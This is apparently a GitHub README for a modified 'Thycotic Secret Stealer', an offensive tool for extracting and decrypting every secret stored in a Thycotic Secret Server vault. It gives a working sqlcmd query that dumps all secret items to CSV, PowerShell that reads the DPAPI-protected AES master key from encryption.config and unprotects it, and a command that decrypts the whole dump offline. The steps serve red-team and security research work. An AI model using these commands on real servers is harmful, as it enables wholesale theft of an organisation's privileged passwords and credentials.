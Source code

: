 # Modified-Thycotic-Secret-Stealer for v10.8+ with DPAPI Integration

Quick modification of [Thycotic Secret Stealer](https://github.com/denandz/SecretServerSecretStealer) to pull AES master Key from DPAPI and then perform Decryption offline and spit output to CSV file. 

# SQLCMD
The following SQLCMD will pull all the items from the Database
```
sqlcmd -d SecretServer -q "select s.SecretName, f.SecretFieldName, s.[Key], i.ItemValue from tbSecretItem as i JOIN tbSecret as s ON (s.SecretID = i.SecretID) JOIN tbSecretField as f on (i.SecretFieldID = f.SecretFieldID)" -W -w 1024 -s "," -o Data.csv
```

# Pull Master Key off Thycotic Server

```
$masterKeys = Get-MasterKeysv104 -path C:\inetpub\wwwroot\SecretServer\encryption.config
$masterkeys.IsEncryptedWithDPAPI # should return true
$decrypted = [Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($masterkeys.key256), $null, 'LocalMachine')
[Text.Encoding]::ASCII.GetString($decrypted)
```

# Decrypt and Spit to CSV
```
Invoke-SecretDump -SecretServerDataPath <PATH TO .csv> -MasterKey <AES MASTER KEY>
```
# References
SecretServer v10.5 and greater changed how keys and IVs are stored. Extraction can be done by using the steps detailed in this issue.
https://github.com/denandz/SecretServerSecretStealer/issues/5#issuecomment-666905276

Big thanks to curi0usJack and his original post here: 
https://www.trustedsec.com/blog/thycotic-secret-server-offline-decryption-methodology/


